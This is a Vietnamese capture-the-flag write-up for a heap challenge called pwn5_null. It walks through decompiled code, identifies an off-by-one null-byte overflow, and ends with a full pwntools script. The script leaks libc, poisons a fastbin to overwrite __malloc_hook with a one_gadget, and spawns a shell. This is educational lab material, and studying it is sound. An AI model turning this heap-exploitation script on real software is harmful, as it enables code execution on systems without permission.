



___
### docs:

https://devel0pment.de/?p=688
___
### Thông tin:

```c
└─$ ls
libc.2.23.so  pwn5_null
```
```c
pwn5_null: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=9f1740b42bc97cb470a75e9386d7fb64867795d3, not stripped
                                                                                                   
└─$ checksec --file=pwn5_null       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols   FORTIFY  Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   88 Symbols  No     0               2               pwn5_null
```

___
Code:

`main()`:
```c
void main(void)
{
  undefined4 option;
  
  initState();
  puts("Ez heap challange !");
  do {
    menu();
    option = readInt();
    switch(option) {
    default:
      puts("no option");
      break;
    case 1:
      createHeap();
      break;
    case 2:
      showHeap();
      break;
    case 3:
      editHeap();
      break;
    case 4:
      deleteHeap();
      break;
    case 5:
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```
`createHeap()`:
```c
undefined8 createHeap(void)
{
  int idx;
  uint size;
  void *ptr;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    if (*(long *)(store + (long)idx * 8) == 0) {
      printf("Input size:");
      size = readInt();
      if (0x1000 < size) {
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      ptr = calloc((ulong)size,1);
      *(void **)(store + (long)idx * 8) = ptr;
      *(uint *)(storeSize + (long)idx * 4) = size;
      printf("Input data:");
      readSTr(*(undefined8 *)(store + (long)idx * 8),size);
      puts("Done");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* các chunk trong dải idx: 0 -> 9 (10 chunks)
* `calloc((ulong)size,1);` tạo chunk với size tự chọn, đồng thời khởi tạo giá trị 0 trong chunkdata
* `store`: lưu lại pointer đến chunk lần lượt tại các idx
* `storeSize`: lưu lại size do ta chọn lần lượt tại các idx
  
`showHeap()`:
```c
undefined8 showHeap(void)
{
  int idx;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      printf("Data = %s\n",*(undefined8 *)(store + (long)idx * 8));
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* Có thể dùng để leak fd/libc trên chunkdata

`editHeap()`:
```c
undefined8 editHeap(void)
{
  int idx;
  uint newsize;
  int yes;
  void *ptr;
  long in_FS_OFFSET;
  char input [10];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("Input index:");
  idx = readInt();
  if ((9 < idx) || (idx < 0)) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (*(long *)(store + (long)idx * 8) != 0) {
    printf("Input newsize:");
    newsize = readInt();
    if (*(uint *)(storeSize + (long)idx * 4) < newsize) {
      free(*(void **)(store + (long)idx * 8));
      ptr = malloc((ulong)newsize);
      *(void **)(store + (long)idx * 8) = ptr;
      *(uint *)(storeSize + (long)idx * 4) = newsize;
    }
    puts("Do you want to change data (y/n)?");
    readStr(input,10);
    yes = strcmp(input,"y");
    if (yes == 0) {
      printf("Input data:");
      readSTr(*(undefined8 *)(store + (long)idx * 8),*(undefined4 *)(storeSize + (long)idx * 4));
    }
    puts("Done ");
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
Lưu ý:
	```c
	    printf("Input newsize:");
	    newsize = readInt();
	    if (*(uint *)(storeSize + (long)idx * 4) < newsize) {
	      free(*(void **)(store + (long)idx * 8));
	      ptr = malloc((ulong)newsize);
	      *(void **)(store + (long)idx * 8) = ptr;
	      *(uint *)(storeSize + (long)idx * 4) = newsize;
	    }
	```
* nếu set size lớn hơn size hiện tại của chunk
  --> `free()` chunk hiện tại --> `malloc()` chunk mới với size mới --> lưu mới lại vào `store` và `storeSize`
* nếu set size bé hoặc bằng size hiện tại của chunk, giữ nguyên
* để overwrite lại data trong chunkdata, có option:
  ```c
    puts("Do you want to change data (y/n)?");
  ```
  có thể dùng để overwrite fd 

`readStr()`:
```c
ulong readSTr(void *buffer,uint size)
{
  ulong len;
  
  len = read(0,buffer,(ulong)size);
  if ((int)len < 0) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  *(undefined1 *)((long)buffer + (long)(int)len) = 0;
  return len & 0xffffffff;
}
```
* bug chính nằm ở đây:
  ```c
	*(undefined1 *)((long)buffer + (long)(int)len) = 0;
  ```

  `readStr()` sẽ set thêm byte cuối cùng của data input thành null

  --> bug: off by one
  --> có thể dùng để chỉnh sửa metadata của chunk kế tiếp trong heap với bug này (cụ thể là chunksize)

`deleteHeap()`:
```c
undefined8 deleteHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      free(*(void **)(store + (long)idx * 8));
      *(undefined8 *)(store + (long)idx * 8) = 0;
      puts("Done ");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* `free()` chunk cấp phát
* sau đó set giá trị trong `store` tại idx tương ứng thành NULL 
___
## Khai thác:
Lỗ hổng: off-by-one 

Tại hàm `readStr`:
```c
ulong readSTr(void *buffer,uint size)
{
  ulong len;
  
  len = read(0,buffer,(ulong)size);
  if ((int)len < 0) {
    exit(0);
  }
  *(undefined1 *)((long)buffer + (long)(int)len) = 0;
  return len & 0xffffffff;
}
```
Dù hàm này có ở cả `createHeap()` và `editHeap()`, nhưng chỉ tận dụng được ở `editHeap()` vì lúc này các chunks đã được tạo sẵn và xếp kề nhau trên heap

Ta thử nghiệm bug trên, trước hết tạo 2 chunk:
```python
createHeap(b'0', 0x68, b'A'*0x68)
createHeap(b'1', 0x128, b'B'*0x128)
```



Sau đấy, `editHeap()` với chunk đầu tiên:
```python
editHeap(b'0', 0x68, b'y', b'C'*0x68)
```






Có thể thấy, chunksize của chunk thứ 2 bị thay đổi (131 --> 100)

Đó là vì phần null thừa ra đã overflow và overwrite đến metadata của chunk kế tiếp

Bug không chỉ chỉnh lại size của chunk kế tiếp, mà còn set flag `PREV_INUSE` về 0

```c
PREV_INUSE (0x1): đánh dấu nếu chunk trước vẫn đang được sử dụng (chưa bị free()) 
```

___


final script.py:

```python
from pwn import *

libc = ELF("./libc.2.23.so", checksec=False)

context.binary = exe = ELF("./pwn5_null_patched", checksec=False)
context.log_level = "debug"

def GDB():
	gdb.attach(p, gdbscript='''
		handle SIGALRM ignore
		set max-visualize-chunk-size 0x300

		br createHeap
		br *createHeap+159

		br deleteHeap
		br *deleteHeap+123

		br showHeap
		br showHeap+133

		br editHeap
		br *editHeap+199
		br *editHeap+403

		# heap check:
		# heap [-v]
		# vis
		# vmmap
		# x/4gx 0x006020e0
		''')

p = process(exe.path)
# GDB()

def createHeap(idx, size, data):
	p.sendlineafter(b">", b'1')
	p.sendlineafter(b"Index:", idx)
	p.sendlineafter(b"size:", str(size))
	p.sendafter(b"data:", data)

def showHeap(idx):
	p.sendlineafter(b">", b'2')
	p.sendlineafter(b"Index:", idx)	

def editHeap(idx, size, opt, data):
	p.sendlineafter(b">", b'3')
	p.sendlineafter(b"index:", idx)
	p.sendlineafter(b"newsize:", str(size))
	p.sendlineafter(b"?", opt)
	if opt == b'y': 
		p.sendafter(b"data:", data)

def deleteHeap(idx):
	p.sendlineafter(b">", b'4')
	p.sendlineafter(b"index:", idx)	

# # CREATING CHUNKS #####################
# createHeap(b'0', b'16', b'A'*16)
# createHeap(b'1', b'1040', b'B'*512)
# createHeap(b'2', b'96', b'C'*16)
# createHeap(b'3', b'16', b'D'*16) # chunk avoid merging

# # LEAK LIBC ###########################
# deleteHeap(b'1')
# editHeap(b'0', b'32', b'n', b'')#chunk
# showHeap(b'0')

# leak_libc = p.recvuntil(b'=')
# leak_libc = p.recvline().strip()
# leak_libc = u64(leak_libc.ljust(8, b"\x00"))
# libc.address = leak_libc - 0x39bf68
# print(f"leak_libc: {hex(leak_libc)}")
# print(f"libc_base: {hex(libc.address)}")
# #######################################

# realloc = libc.sym['realloc']
# fake_chunk = libc.sym['__malloc_hook'] - 0x23
# one_gadget = libc.address + 0xd5bf7
# print(f"fake_chunk: {hex(fake_chunk)}")
# print(f"realloc: {hex(realloc)}")
# print(f"one_gadget: {hex(one_gadget)}")

# # EXPLOIT: HEAP OVERFLOW ##############
# deleteHeap(b'2')
# createHeap(b'1', b'1000', b'IM HERE')

# create(0xf8, 'A'*0xf8) # chunk_AAA, idx = 0
# create(0x68, 'B'*0x68) # chunk_BBB, idx = 1
# create(0xf8, 'C'*0xf8) # chunk_CCC, idx = 2
# create(0x10, 'D'*0x10) # chunk_DDD, idx = 3

## initial chunk
createHeap(b'0', 0xf8, b'A'*0xf8)
createHeap(b'1', 0x68, b'B'*0x68)
createHeap(b'2', 0xf8, b'C'*0xf8)
createHeap(b'3', 0x10, b'D'*0x10)

## off-by-one n merge into bigchunks
deleteHeap(b'0')
editHeap(b'1', 0x68, b'y', b'B'*0x60 + p64(0x100 + 0x70)) # trigger off-by-one
deleteHeap(b'2')

## aligning n leak libc
createHeap(b'0', 0xf6, b'E'*0xf6)
showHeap(b'1')

leak_libc = p.recvuntil(b'=')
leak_libc = p.recvline().strip()
leak_libc = u64(leak_libc.ljust(8, b"\x00"))
libc.address = leak_libc - 0x39bb78
print(f"leak_libc: {hex(leak_libc)}")
print(f"libc_base: {hex(libc.address)}")
realloc = libc.sym['realloc']
fake_chunk = libc.sym['__malloc_hook'] - 0x23
one_gadget = libc.address + 0xd5bf7
print(f"fake_chunk: {hex(fake_chunk)}")
print(f"realloc: {hex(realloc)}")
print(f"one_gadget: {hex(one_gadget)}")

## restore chunkmetadata 
editHeap(b'0', 0x100, b'y', b'E'*0xf8 + p64(0x70))

## add to fastbin, free big chunk
deleteHeap(b'1')
deleteHeap(b'0')
GDB()

## create big chunk to overwrite fastbin fd
payload = b'F' * (0x108 - 0x10)
payload += p64(0x70) 
payload += p64(fake_chunk)
createHeap(b'0', 0x106, payload)

## random padding (valid chunk) to avoid unsortedbin corruption
createHeap(b'1', 0x106, b'IM HERE'*20)

# first malloc (valid) from fastbin
createHeap(b'2', 0x60, b'I WAS HERE'*10)


print(f"fake_chunk: {hex(fake_chunk)}")
print(f"realloc: {hex(realloc)}")
print(f"one_gadget: {hex(one_gadget)}")
# second malloc (to malloc_hook) from fastbin
payload = b'A' * 11 + p64(one_gadget) + p64(realloc + 14)
createHeap(b'4', 0x60, payload)

# call to malloc()
p.sendlineafter(b">", b'1')
p.sendlineafter(b"Index:", b'5')

p.interactive()
```

___
docs:

https://devel0pment.de/?p=688
